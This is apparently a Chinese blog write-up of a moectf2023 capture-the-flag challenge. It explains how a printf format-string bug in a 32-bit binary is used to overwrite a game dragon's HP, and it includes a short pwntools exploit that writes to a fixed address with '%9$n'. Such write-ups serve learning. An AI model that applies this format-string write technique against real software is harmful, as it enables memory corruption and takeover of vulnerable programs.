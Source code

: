 ```yaml
---
title: moectf2023 - format level1
date: 2023/9/25 12:00:00
tags:
    - noob
excerpt: 通过printf漏洞将龙的血量修改为1，以便轻松击败龙并获取flag。
---
```


## 文件分析

下载`format_level1`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

程序员斗恶龙的故事开始了！由于我们先攻击龙，
所以我们的目标是我们的atk>龙的hp即可  
程序中我们的初始atk为1，而龙的hp为10M，每次沉淀可以增加1点atk  
~~那么只要沉淀10,000,000次就可以秒杀恶龙了~~  
程序中存在printf漏洞，将大数字注入atk较难，但将小数字注入hp却较简单，
只要将龙的血量置1，就可以达成目标，拿到flag

程序未开启PIE，所以地址没有偏移，方便直接注入；
通过gdb调试可知，`talk`函数中printf漏洞的str位于栈上第7个，
由此可构造如下exp进行血量修改

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 38469)
sh.sendline(b'2') # 练习时长1坤年，作者也是小黑子
sh.sendline(b'3') # talk with dragon
dragonhpAddr = 0x0804c00c
sh.sendline(b'0%9$n000' + p32(dragonhpAddr)) # write 1 to addr (1x'0')
sh.sendline(b'1') # attack the dragon
sh.interactive()
```

{% note info fa-info %}
arg7:'0%9$', arg8:'n000', arg9:dragonAddr；所有0都是占位符，无实际含义
{% endnote %}

这道题构造payload时出了点小问题：sendline太快，最后的`1`没读到，
要重新打，服务器读取问题要考虑！遇到这种情况就要使用sendlineafter()

Done.
